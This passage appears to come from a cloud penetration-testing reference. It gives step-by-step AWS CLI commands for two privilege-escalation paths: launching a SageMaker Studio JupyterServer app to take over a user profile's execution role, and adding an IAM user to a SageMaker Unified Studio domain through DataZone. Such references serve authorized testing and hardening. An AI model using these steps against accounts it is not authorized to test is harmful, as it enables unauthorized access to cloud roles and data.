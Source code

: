 An attacker with permission to create a SageMaker Studio app for a target UserProfile can launch a JupyterServer app that runs with the profile's `ExecutionRole`. This provides interactive access to the role's permissions via Jupyter terminals or jobs launched from Studio.

Steps:

```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}'

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# 3) Create a JupyterServer app for the user profile
aws sagemaker create-app \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --app-type JupyterServer \
  --app-name js-privesc

# 4) Generate a presigned URL to access Studio
aws sagemaker create-presigned-domain-url \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --query AuthorizedUrl --output text

# 5) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
#    aws sts get-caller-identity
```

**Potential Impact**: Interactive access to the SageMaker execution role attached to the target UserProfile.

### `iam:GetUser`, `datazone:CreateUserProfile`

An attacker with those permissions can give user access to an IAM user into a Sagemaker Unified Studio Domain by creating a DataZone User Profile for that user.

```bash
# List domains
aws datazone list-domains --region us-east-1 \
  --query "items[].{Id:id,Name:name}" \
  --output json

# Add IAM user as a user of the domain
aws datazone create-user-profile \
  --region us-east-1 \
  --domain-identifier <domain-id> \
  --user-identifier <arn-user> \
  --user-type IAM_USER
```

The Unified Domain URL has the following format: `https://<domain-id>.sagemaker.<region>.on.aws/` (e.g. `https://dzd-cmixuznq0h8cmf.sagemaker.us-east-1.on.aws/`).

